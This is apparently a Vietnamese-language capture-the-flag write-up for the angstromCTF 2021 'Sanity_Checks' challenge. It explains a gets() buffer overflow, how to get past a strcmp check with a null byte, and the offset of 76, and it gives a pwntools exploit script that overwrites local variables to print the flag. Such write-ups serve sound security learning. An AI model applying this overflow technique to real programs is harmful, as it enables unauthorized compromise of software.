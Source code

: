 # [angstromCTF-2021] Sanity_Checks
<p>Tại dòng 20, chương trình dùng gets để nhập vào buffer có kích thước 64 bytes -> Buffer overflow. Dòng 21 dùng strcmp(s1, "password123") để kiểm tra mật khẩu. Sau khi mật khẩu đúng, chương trình tiếp tục kiểm tra nếu các biến v7 đến v11 bằng các giá trị cố định thì in ra flag.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post4/image.png)

<p>Tính được offset để bắt đầu ghi đè lên giá trị v7 là 76. Vì v7 đến v11 đều có kiểu int nên kích thước sẽ là 4 byte -> 4 byte tiếp theo tính từ v7 sẽ là v8 và cứ thế tiếp tục.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post4/image-2.png)

<p>Để bypass hàm strcmp ở dòng 21, ta sẽ ghi chuỗi "password123" và thêm null byte để strcmp sẽ dừng và xác định 2 chuỗi là bằng nhau. Tiếp theo, padding cho đến địa chỉ của v7. Script exploit:</p>

```
from pwn import *

p = process('./checks')

cmp = b'password123\x00'
v7 = p32(0x11)
v8 = p32(0x3d)
v9 = p32(0xf5)
v10 = p32(0x37)
v11 = p32(0x32)
payload = cmp + b'a' * (76 - len(cmp)) + v7 + v8 + v9 + v10 + v11

p.sendlineafter(b'Enter the secret word: ', payload)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post4/image-3.png)
